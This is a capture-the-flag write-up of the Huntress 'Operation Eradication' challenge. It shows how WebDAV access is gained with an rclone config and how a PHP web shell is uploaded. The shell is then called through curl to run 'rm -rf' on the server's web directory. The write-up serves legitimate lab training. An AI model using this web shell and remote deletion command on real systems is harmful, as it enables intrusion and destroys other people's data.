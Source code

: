 ```yaml
---
title: "Operation Eradication"
description: "Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!"
author: "huntress"
date: "2023-10-14"
published: true
---
```


# Operation Eradication

<aside>
👻 Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!

*They stole our data!*

Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!?
</aside>


We are given a webserver instance, alongside an **`operation_eradication`** file, which is plain Ascii with the following content:

```
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

We know this is a `Webdav` server, and that we can access the Webdav instance at `http://chal.ctf.games:30236/webdav`. Checking out the main page alongside the Webdav endpoint, we can see the server wants to authenticate with a `Basic` Authorization header, but no matter what we enter, we cannot access the Webdav service.

![1](/img/operation_eradication_img/Untitled.png)

![Untitled](/img/operation_eradication_img/Untitled%201.png)

![Untitled](/img/operation_eradication_img/Untitled%202.png)

We can try to do a bit of decoding/decryption, but we won’t get a hash analysis tool to give us even a guess - our `user` and `pass` strings are 72 characters long, aren’t URL-safe b64 encoded, and are generally just not going to be easily cracked.

Thankfully, we can Google the config template and find that it belongs to `Rclone`, which can be used to connect to remote Webdav servers.

Downloading Rclone, we can run through a setup of a config file, and then edit it’s contents to match the file provided:

```powershell
.\\rclone config
# run through config setup ...
Current remotes:

Name                 Type
====                 ====
huntress             webdav

# ...

s) Set configuration password
q) Quit config
e/n/d/r/c/s/q> q

# then replace it's contents with our desired config:

echo "[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" > C:\\Users\\zacwo\\AppData\\Roaming\\rclone\\rclone.conf

cat C:\\Users\\zacwo\\AppData\\Roaming\\rclone\\rclone.conf
[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Next, lets try listing the Webdav’s contents to see if our configuration works:

```powershell
.\\rclone tree huntress:
/
├── Accounting
│   ├── 2021
│   │   └── AnnualReport.pdf
│   ├── 2022
│   │   ├── Quarter1_MonthlyRevenue.xlsx
# ...
│   └── Training
│       ├── 2022
│       │   ├── AdvancedSalesSkillsCourse.pdf
│       │   └── NewSalesRepTraining.pdf
│       └── SalesTrainingManual.pdf
```

Looks like its functional. Unfortunately, we can’t just `.\\rclone delete huntress:/` - I guess some kind of backend configuration on the remote machine stops us from doing this - we do, however, have write permissions, and can upload files to the machine.

As with any PHP service, we may be able to gain code execution as `www-data` (who would usually have ownership of `/var/www/html/`) so my immediate thoughts were that it might be possible to execute code through malicious PHP.

We tragically can’t execute commands from our Rclone shell, so we’ll have to try to run something from the HTTP service. As the service is publicly available, only requires a single command, and honestly I don’t feel like spinning up `ngrok` tunnels, we can just use a PHP `cmd` script:

```php
// written to 'exec.php':

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

```powershell
.\\rclone copy C:\\...\\exec.php huntress:/
.\\rclone ls huntress:/
       50 exec.php
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  3510400 HumanResources/EmployeeHandbook.pdf
  7680849 ProductDevelopment/Specifications/NewProductSpecs.pdf
  3891213 ProductDevelopment/Specifications/UpdatedProductSpecs.pdf
  ...
```

We still don’t know how to Auth, so we can try to intercept the `Rclone`↔ `Webdav` traffic with `Wireshark`:

```powershell
PROPFIND /webdav/ HTTP/1.1
Host: chal.ctf.games:30236
User-Agent: rclone/v1.64.2
Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz
Depth: 1
Referer: http://chal.ctf.games:30236/webdav/
Accept-Encoding: gzip
```

Finally, we can use `curl` to execute `bash -c "rm -rf <[the webdav endpoint]>...";`  as a `GET` param passed to the `exec.php` file we just uploaded - I’ve included an additional `echo 'done'` command after running `rm -rf` just as a sanity check, so we know we’re executing a command given the lack of feedback.

Essentially, we are querying the URI `http://chal.ctf.games:30236/webdav/test/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"` while supplying the header info expected for such an HTTP request:

```bash
	curl -i -s -k -X $'GET' \\
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \\
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \\
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \\
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"'
```

```php
curl -i -s -k -X $'GET' \\
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \\
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \\
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \\
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"'

HTTP/1.1 200 OK
Date: Fri, 20 Oct 2023 18:24:02 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Encoding: gzip
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

Refreshing the webapp's root directory, we get our flag:

![Untitled](/img/operation_eradication_img/Untitled%203.png)


